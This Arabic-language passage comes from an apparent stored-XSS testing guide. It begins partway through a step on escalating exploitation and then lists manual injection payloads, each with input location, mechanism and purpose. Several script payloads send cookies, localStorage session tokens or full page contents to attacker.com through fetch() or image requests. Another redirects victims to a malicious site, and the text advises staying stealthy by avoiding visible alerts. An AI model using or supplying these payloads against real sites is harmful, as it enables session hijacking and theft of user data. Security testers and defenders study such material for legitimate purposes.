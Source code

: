 6. **تأكيد السياق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<img src=x onload="fetch('http://attacker.com/log?d='+document.domain)">`).
   - إذا نجحت الحقن، جرب هجمات متقدمة مثل:
     - سرقة بيانات حساسة (مثل `localStorage.getItem('token')`).
     - التلاعب بالصفحة (مثل إنشاء نموذج مزيف).
     - تنفيذ إجراءات المستخدم (مثل إرسال طلبات POST).
   - حافظ على التخفي بتجنب التنبيهات البصرية إذا كنت تستهدف سياقات حساسة.

---

## جميع المحاولات الممكنة لاختبار ثغرة XSS المخزن
في اختبار ثغرة XSS المخزن، المحاولات تركز على إدخال شيفرات JavaScript أو HTML في نقاط إدخال تُخزن في قاعدة البيانات وتُعرض لاحقًا. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في حقول التعليقات، المنشورات، أو أوصاف الملف الشخصي. الهدف هو تنفيذ JavaScript عند عرض البيانات المخزنة.

#### أ. حقن باستخدام وسوم HTML
{  #XSS_Idea_for_script_tag }
إدراج وسوم HTML تحتوي على JavaScript مباشرة.
- **الحقن**: `<script>alert('XSS')</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>alert('XSS')</script>`
  - **كيف يعمل**: ينفذ تنبيهًا عند عرض التعليق.
  - **متى يُستخدم؟**: لتأكيد وجود ثغرة XSS.
- **الحقن**: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **الإدخال**: أدخل في منشور: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم.
  - **متى يُستخدم؟**: لسرقة بيانات الجلسة.
- **الحقن**: `<script>document.location='http://attacker.com'</script>`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<script>document.location='http://attacker.com'</script>`
  - **كيف يعمل**: يعيد توجيه المستخدم إلى موقع ضار.
  - **متى يُستخدم؟**: لإعادة التوجيه الخبيث.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>`
  - **كيف يعمل**: يرسل محتوى الصفحة إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **الإدخال**: أدخل في منشور: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.
